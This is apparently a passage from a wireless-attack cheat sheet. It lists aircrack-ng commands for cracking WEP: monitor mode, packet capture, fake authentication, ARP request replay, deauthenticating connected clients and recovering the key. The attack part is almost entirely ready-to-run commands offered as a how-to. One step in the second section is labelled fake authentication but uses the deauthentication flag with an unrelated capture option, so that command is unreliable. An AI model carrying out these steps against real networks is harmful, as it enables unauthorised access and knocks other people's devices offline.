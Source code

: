 ### WEP - With connected Clients<a name="WEP-ConnectedClients"></a>

Place your wireless card into monitor mode on the channel number of the AP:

```
airmon-ng start <interface> <AP channel>
```
 
Start an Airodump-ng capture filtering on the AP channel and BSSID, saving the file to disk:
 
```
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <capture> <interface>
```

Conduct a fake authentication attack against the AP:

```
aireplay-ng -1 0 -e <ESSID> -a <AP MAC> -h <Your MAC> <interface>
```
 
Launch the ARP request replay attack:

```
aireplay-ng -3 -b <AP MAC> -h <Your MAC> <interface>
```
 
Deauthenticate the connected client to force new IV generation by the AP:

```
aireplay-ng -0 1 -a <AP MAC> -c <Client MAC> <interface>
```
 
Once a significant number of IVs have been captured, run Aircrack-ng against the Airodump capture:

```
aircrack-ng <capture>
```
 
### WEP - Via a Client<a name="WEP-Client"></a>

Place your wireless card into monitor mode on the AP channel:

```
airmon-ng start <interface> <AP channel>
```

Start a capture dump, filtering on the AP channel and BSSID, saving the capture to a file:

```
airodump-ng -c <AP channel> --bssid <AP MAC> -w <capture> <interface>
```

Next, conduct a fake authentication against the access point:

```
aireplay-ng -0 1 -e <ESSID> -a <AP MAC> -w <capture> <interface>
```

Launch the interactive packet replay attack looking for ARP packets coming from the AP:

```
aireplay-ng -2 -b <AP MAC> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 <interface>
```
